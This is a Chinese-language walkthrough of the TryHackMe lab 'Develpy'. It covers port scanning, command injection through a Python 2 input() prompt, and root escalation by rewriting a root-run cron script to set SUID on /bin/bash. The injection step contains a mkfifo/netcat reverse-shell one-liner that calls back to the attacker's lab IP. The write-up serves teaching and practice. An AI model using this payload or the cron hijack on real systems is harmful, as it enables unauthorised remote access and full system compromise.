 ```yaml
---
sidebar_position: 125
tags: [Easy, Linux, 命令注入, PATH]
title: "Develpy"
description: "Develpy"
sidebar_label: "Develpy"
slug: /tryhackme/125
---
```


# Develpy

![Untitled](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-142749-2.png)

## 端口扫描

```bash
root@ip-10-10-43-198:~/bsidesgtdevelpy# nmap -sTCVC -p 22,10000 --min-rate 1000 10.10.136.84

Starting Nmap 7.60 ( https://nmap.org ) at 2023-09-30 08:59 BST
Nmap scan report for ip-10-10-136-84.eu-west-1.compute.internal (10.10.136.84)
Host is up (0.00013s latency).

PORT      STATE SERVICE           VERSION
22/tcp    open  ssh               OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 78:c4:40:84:f4:42:13:8e:79:f8:6b:e4:6d:bf:d4:46 (RSA)
|   256 25:9d:f3:29:a2:62:4b:24:f2:83:36:cf:a7:75:bb:66 (ECDSA)
|_  256 e7:a0:07:b0:b9:cb:74:e9:d6:16:7d:7a:67:fe:c1:1d (EdDSA)
10000/tcp open  snet-sensor-mgmt?
| fingerprint-strings: 
|   GenericLines: 
|     Private 0days
|     Please enther number of exploits to send??: Traceback (most recent call last):
|     File "./exploit.py", line 6, in <module>
|     num_exploits = int(input(' Please enther number of exploits to send??: '))
|     File "<string>", line 0
|     SyntaxError: unexpected EOF while parsing
|   GetRequest: 
|     Private 0days
|     Please enther number of exploits to send??: Traceback (most recent call last):
|     File "./exploit.py", line 6, in <module>
|     num_exploits = int(input(' Please enther number of exploits to send??: '))
|     File "<string>", line 1, in <module>
|     NameError: name 'GET' is not defined
|   HTTPOptions, RTSPRequest: 
|     Private 0days
|     Please enther number of exploits to send??: Traceback (most recent call last):
|     File "./exploit.py", line 6, in <module>
|     num_exploits = int(input(' Please enther number of exploits to send??: '))
|     File "<string>", line 1, in <module>
|     NameError: name 'OPTIONS' is not defined
|   NULL: 
|     Private 0days
|_    Please enther number of exploits to send??:
```

## 10000

连接 10000 端口我根据其输出判断出其功能:

- 后台执行 ping 命令
- 根据我们的输入来判断其执行的次数

![Untitled](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-142749-1.png)

根据一系列的报错我推出其执行的代码大致为:

```python
import os

print("Private 0days")
num_exploits = int(input(' Please enther number of exploits to send??: '))
for i in range(num_exploits):
	os.system("ping -n " + num_exploits + "tryhackme.com")
```

也许我们可以借此来实现命令注入: [Introduction to Software Security Chapter 3.8.3: Code Injections](https://research.cs.wisc.edu/mist/SoftwareSecurityCourse/Chapters/3_8_3-Code-Injections.pdf)

![Untitled](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-142749.png)

## 后渗透

### king

利用上面得到的命令注入漏洞进行攻击

```python
__import__("os").system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.43.198 4444 >/tmp/f")
```

![Untitled](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-142749-3.png)

### king —> root

查看定时任务发现存在一个以 root 身份运行的定时任务, 其对应的执行脚本在我们的目录中

```bash
(remote) king@ubuntu:/home/king$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *	* * *	king	cd /home/king/ && bash run.sh
*  *	* * *	root	cd /home/king/ && bash root.sh
*  *	* * *	root	cd /root/company && bash run.sh
(remote) king@ubuntu:/home/king$ mv root.sh root.bak
(remote) king@ubuntu:/home/king$ ls
credentials.png  exploit.py  root.bak  run.sh  user.txt
(remote) king@ubuntu:/home/king$ cat << EOF > root.sh
> chmod u+s /bin/bash
> EOF
(remote) king@ubuntu:/home/king$ ls -al /bin/bash
-rwxr-xr-x 1 root root 1037528 Jul 12  2019 /bin/bash
(remote) king@ubuntu:/home/king$ date
Sat Sep 30 01:29:35 PDT 2023
(remote) king@ubuntu:/home/king$ ls -al /bin/bash
-rwsr-xr-x 1 root root 1037528 Jul 12  2019 /bin/bash
```